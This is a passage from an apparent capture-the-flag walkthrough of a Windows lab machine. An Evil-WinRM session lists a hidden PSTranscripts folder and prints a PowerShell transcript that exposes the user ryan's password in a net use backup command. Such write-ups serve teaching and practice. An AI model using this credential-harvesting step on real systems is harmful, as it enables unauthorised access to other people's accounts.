 We go through the folder until finding the transcript text file. Then we display
it. Inside we see a few commands and then a backup command using the `ryan` user
and its password `Serv3r4Admin4cc123!`

    :::text
    *Evil-WinRM* PS C:\> dir -force PSTranscripts\
        Directory: C:\PSTranscripts


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d--h--        12/3/2019   6:45 AM                20191203


    *Evil-WinRM* PS C:\> dir -force PSTranscripts\20191203\
        Directory: C:\PSTranscripts\20191203


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

    *Evil-WinRM* PS C:\> type PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
    **********************
    Windows PowerShell transcript start
    Start time: 20191203063201
    Username: MEGABANK\ryan
    RunAs User: MEGABANK\ryan
    Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
    Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
    Process ID: 2800
    PSVersion: 5.1.14393.2273
    PSEdition: Desktop
    PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
    BuildVersion: 10.0.14393.2273
    CLRVersion: 4.0.30319.42000
    WSManStackVersion: 3.0
    PSRemotingProtocolVersion: 2.3
    SerializationVersion: 1.1.0.1
    **********************
    Command start time: 20191203063455
    **********************
    PS>TerminatingError(): "System error."
    >> CommandInvocation(Invoke-Expression): "Invoke-Expression"
    >> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
    if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
    >> CommandInvocation(Out-String): "Out-String"
    >> ParameterBinding(Out-String): name="Stream"; value="True"
    **********************
    Command start time: 20191203063455
    **********************
    PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
    PS megabank\ryan@RESOLUTE Documents>
    **********************
    Command start time: 20191203063515
    **********************
    PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
    >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
    <SNIP>
